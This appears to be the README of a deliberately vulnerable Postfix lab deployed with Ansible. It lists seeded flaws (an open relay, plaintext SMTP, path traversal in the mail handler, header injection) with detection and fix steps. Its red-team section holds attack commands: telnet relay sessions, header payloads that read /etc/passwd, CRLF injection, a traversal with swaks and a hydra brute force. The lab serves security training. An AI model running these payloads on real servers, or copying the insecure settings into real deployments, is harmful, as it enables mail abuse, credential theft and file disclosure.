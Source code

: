 Overview
This project contains a very basic Ansible configuration to deploy and manage an SMTP service (Postfix) on a Linux host.
It demonstrates three key Ansible features:

1. Package installation (apt) – installs Postfix.
2. File configuration (copy) – ensures /etc/mailname is present with a defined domain.
3. Service management (service) – makes sure Postfix is running and enabled on boot.

Files
- smtp.yml → The Ansible playbook with 3 features.
- hosts.ini → The inventory file containing the target host(s).

Requirements
- Ubuntu/Debian-based target system.
- Python installed on the target (default on most Linux distros).
- SSH access with key or password.
- Ansible installed on the control machine (sudo apt install ansible).



### Vulnerabilities
1. **Open relay** — `mynetworks = 0.0.0.0/0` and `smtpd_recipient_restrictions` ending with `permit` allow relaying mail for arbitrary destinations.
   - **Detect**: Send mail from external host to external address; check `/var/log/mail.log` and headers, use `postconf -n`.
   - **Fix**: Set `mynetworks` to trusted CIDRs only; ensure `smtpd_recipient_restrictions` includes `reject_unauth_destination`.

2. **No TLS (plaintext SMTP)** — `smtpd_tls_security_level = none` disables encryption.
   - **Detect**: Attempt STARTTLS; tcpdump will show plaintext credentials/headers.
   - **Fix**: Configure valid certificates and set `smtpd_tls_security_level = may` or `encrypt`.
   - Turning this on is a bit of a hassle tho...

3. **Unsafe mailbox_command / handler** — `unsafe_mail_handler.py` writes files using unsanitized recipient input.
   - **Exploit**: Use recipient addresses containing `../` or unusual header content to cause traversal or corrupt files.
   - **Fix**: Sanitize recipient/filename input, use safe mailboxes (Maildir) or proper delivery agents (local/virtual). Run handlers as unprivileged users and restrict write paths.

4. **CRLF/header injection opportunities** — permissive header checks and lack of validation in handler can allow crafted headers.
   - **Detect**: Send messages with malformed headers; inspect delivery files and logs for injected content.
   - **Fix**: Enforce header checks, use Postfix header/body regex safely, and ensure delivery scripts robustly parse headers.

### Blue Team
use default `main.cf`

### Red Team
#### Open Relay Exploitation
```bash
# Test for open relay
telnet target-smtp 25
EHLO attacker.com
MAIL FROM: <attacker@evil.com>
RCPT TO: <victim@external.com>
DATA
Subject: Test
This is a test message
.
```

#### SMTP Command Injection
```bash
# Command injection via headers
telnet target-smtp 25
EHLO attacker.com
MAIL FROM: <attacker@evil.com>
RCPT TO: <victim@target.com>
DATA
Subject: inject;id;
From: |cat /etc/passwd
Test message
.
```
#### CRLF Injection
```bash
# CRLF injection in email fields
telnet target-smtp 25
MAIL FROM: <attacker@evil.com>\r\nRCPT TO:<admin@target.com>
RCPT TO: <victim@target.com>
DATA
Subject: CRLF%0D%0AInjection%0D%0AX-Header: malicious
Body content
.
```
#### Directory Traversal
```bash
# Attempt path traversal in aliases
swaks --to ../etc/passwd@target-smtp --from attacker@evil.com
```
####Traffic Interception
```bash
# Capture unencrypted SMTP traffic
tcpdump -i any port 25 -w smtp_traffic.pcap
```
#### Weak Authentication Brute Force
```bash
# Hydra brute force attack
hydra -l admin -P wordlist.txt smtp://target-smtp:25
```